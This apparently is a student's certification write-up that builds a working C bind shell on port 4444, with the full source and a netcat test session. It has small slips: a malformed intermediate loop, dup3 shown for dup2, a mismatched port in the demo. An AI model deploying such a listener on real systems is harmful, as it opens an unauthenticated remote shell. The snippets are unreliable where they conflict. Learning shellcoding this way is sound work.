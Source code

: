 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 14183.

This is part 1/4 of the exercice 2.

# Exo 2 - Reverse shellcode - Part 1 - C Bind Shell

### *int main()*

For this first exercise lets start by developping a C bind shell. Steps are:

  * Create a socket
  * Bind the socket
  * Listen on a defined port
  * Accept connection
  * Redirect stdin/stdout/stderr
  *  Run /bin/sh

For each step, **man** is used in order to find usage description of functions.

### Socket

The first step is to create a socket which will be used to listen on.
```C
SYNOPSIS
        #include <sys/types.h>
        #include <sys/socket.h>
        int socket(int domain, int type, int protocol);

DESCRIPTION
        The domain argument specifies a communication domain; 
        AF_INET             IPv4 Internet protocols          ip(7)
 
        SOCK_STREAM     Provides sequenced, reliable, two-way, connection-based byte streams.  An out-of-band data transmission mechanism may be supported.
 
        The  protocol  specifies  a  particular  protocol  to  be used with the socket.  Normally only a single protocol exists to support a particular socket  type within a given protocol family, in which case protocol can be specified as 0. 
```

Our C code is:

```
int my_socket = socket(AF_INET, SOCK_STREAM, 0);
```

### Bind
Then socket must be bind. 

```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
  * *sockfd* is the socket we created, 
  * *addrlen* is len of *addr*
 addrlen specifies the size, in bytes, of the address structure pointed to by addr.
   * addr is a specific structure

The sockaddr structure myst contain:

  * the family: *AF_INET*
  * the address to listen: *INADDR_ANY*
  * the port to bind.

In order to format the port number, htons must be used:

```
       The htons() function converts the unsigned short integer hostshort from host byte order to network byte order.
```

The bind part is:
```
struct sockaddr_in my_sockaddr;
my_sockaddr.sin_family = AF_INET;
my_sockaddr.sin_addr.s_addr = INADDR_ANY;
my_sockaddr.sin_port = htons(4444);
bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));
```
### Listen

Lets start listening.

```
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int listen(int sockfd, int backlog);

DESCRIPTION
       The  backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.
```
C code is:

```
listen(my_socket, 0);
```

### Accept

Then, connections must be accepted.

```
SYNOPSIS
       #include <sys/types.h>           /* See NOTES */
       #include <sys/socket.h>

       int accept(int sockfd, struct sockaddr *adresse, socklen_t *longueur); 
```

C code:

```
int my_accept = accept(my_socket, NULL, NULL);
```

### Redirect

Before executing our shell we need to redirect stdin, stdout and stderr to our socket. Again, lets use the man.

```
#include <unistd.h>
int dup3(int oldfd, int newfd, int flags);
```

As a remember, file descriptor are (https://en.wikipedia.org/wiki/File_descriptor):

  * 0 for standard input (STDIN)
  * 1 for standard output (STDOUT)
  * 2 for standard error (STDERR)

Our code may be:

```
dup2(my_accept, 0);
dup2(my_accept, 1);
dup2(my_accept, 2);
```

Regarding C code, using a for loop do not have a huge interest, but as its for shellcoding purposes, lets use a for loop:

```
int i;
for(i = 0; i++; i <3)
	dup2(my_accept, i);
```

### Execve

At last we can finnaly call execve:
```
SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);
```

```
execve("/bin/sh", NULL, NULL);
```
### Code

Lets try to compile it by removing the includes one by one in order to remove unecessary include. Finally there is a C Bind Shell:

```
#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>

int main()
{
	int my_socket = socket(AF_INET, SOCK_STREAM, 0);

	struct sockaddr_in my_sockaddr;
	my_sockaddr.sin_family = AF_INET;
    	my_sockaddr.sin_addr.s_addr = INADDR_ANY;
    	my_sockaddr.sin_port = htons(4444);
	bind(my_socket, (struct sockaddr *)&my_sockaddr, sizeof(my_sockaddr));

	listen(my_socket, 0);

	int my_accept = accept(my_socket, NULL, NULL);

	int i;
	for(i = 0; i < 3; i++)
		dup2(my_accept, i);

	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### Usage

In a first terminal:

```
cervoise@slae:~/exam/bind$ gcc bind_shell.c -o bind_shell cervoise@slae:~/exam/bind$ ./bind_shell
```
```
cervoise@slae:~/slae/Shellcode$ netstat -laput |grep bind_shell
[...]
tcp        0      0 *:4444                  *:*                     LISTEN      21884/bind_shell   
[...]
cervoise@slae:~/slae/Shellcode$ nc 127.0.0.1 4444
id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
exit
cervoise@slae:~/slae/Shellcode$ nc 127.0.0.1 4454
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
```
